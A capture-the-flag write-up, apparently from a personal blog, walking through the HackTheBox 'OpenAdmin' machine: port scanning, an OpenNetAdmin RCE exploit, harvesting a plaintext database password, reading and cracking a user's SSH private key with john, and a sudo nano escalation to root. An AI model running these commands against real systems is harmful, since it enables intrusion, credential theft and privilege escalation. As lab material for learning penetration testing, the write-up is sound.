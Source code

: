 ```yaml
---
layout: single
title: "OpenAdmin Write-Up: HackTheBox"
excerpt: "OpenAdmin was a fun, easy machine with an interesting internal web application."
classes: wide
categories: [hackthebox]
date: 2020-05-02
tags: [hackthebox, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\openadmin\banner-openadmin.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "book-dead"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\openadmin\banner-openadmin.png)
## TL;DR
OpenAdmin was a fun, easy machine with an interesting internal web application. With only two open ports, SSH (22) and HTTP (80) the attack surface is minimal. Web enumeration revealed a few web applications, one being an outdated OpenNetAdmin IP Address Management (IPAM) system (v18.1.1), which allowed RCE as the www-data user. Once we obtained a shell, system enumeration revealed stored credentials which allowed us to pivot via SSH to another user (Jimmy) and capture the user flag. The Jimmy user was also part of a unique group that allowed us access to an internal web application that output the SSH private key (encrypted, but easily cracked) to another user (Joanna). Joanna had sudo privileges to run Nano, which using the help of GTFOBins, gave us a root shell.

## Nmap Port Scan
Looking at the scan, we see a couple of ports open.

```bash
nmap -sCV -p- -oN nmap/openadmin-full 10.10.10.171
```
```bash
Nmap scan report for 10.10.10.171
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.86 seconds
```

## Web Enumeration
Directory brute-forcing revealed several directories.

Command Used: `rustbuster dir -u http://10.10.10.171 -w /opt/SecLists/Discovery/Web-Content/common.txt -t 25`
![](\assets\images\htb\openadmin\rustbuster-openadmin.png)

`http://10.10.10.171/music/` Clicking Login, takes us to an ONA interface.
![](\assets\images\htb\openadmin\musicweb-openadmin.png)

OpenNetAdmin IP Address Management (IPAM) system
`http://10.10.10.171/ona/`
![](\assets\images\htb\openadmin\ona-openadmin.png)

## OpenNetAdmin Exploitation

Searchsploit revealed a couple of exploits for the version, one with Metasploit and one without. 
![](\assets\images\htb\openadmin\search-openadmin.png)

Copying the bash script directly from searchsploit left a few random carriage returns, etc., so the script needed a little cleanup. But after being cleaned up, it worked and we have a rudimentary shell as www-data.
![](\assets\images\htb\openadmin\exploit-openadmin.png)

I uploaded, upgraded and executed a proper php shell. 
![](\assets\images\htb\openadmin\phpshell-openadmin.png)

{% gist 32cc7df561b8076201312e4fc5294f14 %}

## Post-Exploitation

Time to enumerate! Quick hits with some grepping came up with:
![](\assets\images\htb\openadmin\database_settings-openadmin.png)

Command used:  `egrep -R 'password|pass'`

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```
Awesome, we have a password! Further enumerating the database gives some hashes.
![](\assets\images\htb\openadmin\OpenAdmin-HTB.gif)

## Getting Jimmy 

The hashes were essentially useless. But we have another way! A quick look at `/etc/passwd` reveals two regular users: jimmy & joanna. A quick try with jimmy and the `n1nj4W4rri0R!` password gets us a SSH session and some interesting finds with LinPEAS!
![](\assets\images\htb\openadmin\linpeas1-openadmin.png)
![](\assets\images\htb\openadmin\linpeas2-openadmin.png)
![](\assets\images\htb\openadmin\linpeas3-openadmin.png)

So it appears our friend Jimmy (and Joanna) is in an `internal` group which has write access to "/var/www/internal". A quick telnet/curl to the unusual port reveals it is an Apache service hosting `internal.openadmin.htb`. Putting two and two together, it is probably serving the internal directory. Let's check out that directory.

Well, it appears we can get Joanna's SSH private key:
main.php 
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Easy enough.
![](\assets\images\htb\openadmin\joannakey-openadmin.png)

It's encrypted, so we use:

`/usr/share/john/ssh2john.py joanna.key > joanna.hash`

`john joanna.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John made quick work of it, even in a VM.
![](\assets\images\htb\openadmin\john-openadmin.png)

## Moving to Joanna

We get in and capture user.txt.
![](\assets\images\htb\openadmin\user-openadmin.png)

## Privilege Escalation

Interesting sudo finding:
![](\assets\images\htb\openadmin\sudo-openadmin.png)

GTFOBins shows us we can get a shell with Nano, let's try it.
![](\assets\images\htb\openadmin\sudo_gtfobins-openadmin.png)

`sudo /bin/nano /opt/priv`
![](\assets\images\htb\openadmin\root-openadmin.png)

Got Root!